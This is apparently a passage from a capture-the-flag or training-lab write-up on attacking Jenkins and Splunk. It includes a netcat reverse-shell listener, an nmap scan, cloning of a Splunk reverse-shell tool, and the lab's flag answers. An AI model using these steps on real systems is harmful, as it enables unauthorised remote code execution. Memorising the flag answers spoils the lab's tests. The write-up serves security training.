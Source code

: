 ![](img/jenkins_00.png)

And have a listener in our attacking machine.

```bash
nc -lnvp 1234      
```

Now we cat the flag: 

```
cat var/lib/jenkins3/flag.txt
```

Results: f33ling_gr00000vy!


## Infrastructure/Network Monitoring Tools


**Enumerate the Splunk instance as an unauthenticated user. Submit the version number to move on (format 1.2.3).**

We enumerate the open ports: 

```
sudo nmap $ip -sC -sV --top-ports 10000
```

After noticing port 8000 with Splunk service in it, we access it. Note that we will be accessing with HTTPS. See the title of the site.
Results: 8.2.2


**Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory.**

Clone the tool reverse_shell_splunk

```
git clone https://github.com/0xjpuff/reverse_shell_splunk.git
```
